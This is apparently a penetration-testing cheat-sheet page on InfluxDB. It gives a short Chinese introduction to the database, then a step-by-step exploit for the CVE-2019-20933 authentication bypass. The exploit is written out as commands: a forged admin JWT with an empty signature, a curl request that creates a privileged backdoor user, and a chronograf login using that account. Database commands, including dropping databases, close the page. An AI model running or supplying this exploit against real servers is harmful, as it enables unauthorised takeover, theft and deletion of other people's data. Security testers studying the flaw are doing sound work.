 # InfluxDB

<details>

<summary>Introduction</summary>

InfluxDB 是一个开源的时间序列数据库，专为处理时间相关的数据而设计。它特别适用于存储和查询来自传感器、监控系统、应用程序指标和日志等时序数据。InfluxDB 具有高性能、可扩展性和灵活的数据模型，支持快速插入和复杂的查询操作。它提供了丰富的功能，如数据持久化、数据压缩、数据分片和数据可视化等。InfluxDB 还提供了强大的查询语言 InfluxQL 和持续查询功能，使得用户可以方便地分析和监控时序数据。由于其特定的设计和功能，InfluxDB 被广泛应用于监控、物联网、应用程序性能分析和实时数据分析等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>InfluxDB</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>8086</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td>Unauthorized Access (CVE-2019-20933)</td></tr></tbody></table>

## Unauthorized Access (CVE-2019-20933)

{% code title="Environment" %}
```bash
HOST=; PORT=8086; # TARGET HOST INFO
URL=http://$HOST:$PORT;
curl $URL/debug/vars
```
{% endcode %}

Generate a Token using [https://jwt.io/](https://jwt.io/). The HEADER and PAYLOAD are shown below, and the VERIFY SIGNATURE is set to empty.

```bash
# HEADER: ALGORITHM & TOKEN TYPE
{
  "alg": "HS256",
  "typ": "JWT"
}
# PAYLOAD
{
  "username": "admin",
  "exp": 2986346267
}
```

Vulnerabilities can be verified through the curl command (you can also through add HTTP Header to access).

```bash
AUTH="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoyOTg2MzQ2MjY3fQ.LJDvEy5zvSEpA_C6pnK3JJFkUKGq9eEi8T2wdum3R_s"
BODY=q="CREATE USER \"influx\" with PASSWORD '123456' WITH ALL PRIVILEGES;"
curl -X POST -H $AUTH -d $BODY $URL/query
```

If the return result contains the field `{"results":[{"statement_id":0}]}`, it means that the user has been added successfully.

After successfully adding a user, you can use the graphical tool [chronograf](https://github.com/influxdata/chronograf) to operate the database.”

```bash
chronograf --influxdb-url="$URL" --influxdb-username="influx" --influxdb-password="123456"
```

## Commonly used commands

```bash
show databases # Show all databases
show users # Show all users
show measurements # Show all measurements
create user "influx" with password 'password' with all privileges; # Create user
create database "db_name" # Create database
drop database "db_name" # Delete database
use db_name # Use database
select * from measurement_name limit 10 # Query the first ten data of the measurement_name table
```
